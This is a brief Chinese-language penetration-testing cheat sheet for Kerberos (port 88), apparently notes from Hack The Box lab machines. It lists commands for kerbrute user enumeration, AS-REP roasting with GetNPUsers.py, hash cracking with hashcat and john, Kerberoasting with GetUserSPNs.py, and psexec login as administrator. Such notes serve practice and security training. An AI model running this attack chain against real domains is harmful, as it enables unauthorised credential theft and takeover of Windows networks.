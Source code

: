 ```yaml
---
description: 这是windows中的重点
---
```


# 88 （kerbrute）

windows中的重点关注

1. 爆破用户

```bash
/root/Desktop/tools/windows/kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

1. 检查AS-REP Roasting 可能会出hash

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
```

1.  爆破hash

    一般是18200，也可以检查一下

```bash
 hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
```

1. 已经拿到域内用户进一步突破

```bash
./GetUserSPNs.py -dc-ip 10.129.8.86 active.htb/SVC_TGS。  --先用这个枚举用户
./GetUserSPNs.py -dc-ip 10.129.8.86 active.htb/SVC_TGS -request     --在用这个获取票据
john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt    ---爆破
./psexec.py administrator@10.129.8.86。  --登陆
```
